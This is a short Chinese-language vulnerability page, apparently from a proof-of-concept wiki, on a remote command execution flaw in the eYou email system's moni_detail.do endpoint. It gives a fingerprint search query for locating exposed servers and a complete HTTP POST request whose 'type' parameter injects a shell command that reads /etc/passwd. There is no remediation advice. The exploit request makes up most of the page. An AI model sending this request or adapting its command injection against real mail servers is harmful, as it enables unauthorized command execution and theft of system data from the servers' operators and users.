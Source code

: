 # 亿邮电子邮件系统 moni_detail.do 远程命令执行漏洞

## 漏洞描述

亿邮电子邮件系统 存在远程命令执行漏洞，攻击者可以执行任意命令

## 漏洞影响

<a-checkbox checked>亿邮电子邮件系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="亿邮电子邮件系统"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313103732287.png)



漏洞请求包如下



```plain
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 39
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36

type='|cat /etc/passwd||'
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313103731648.png)




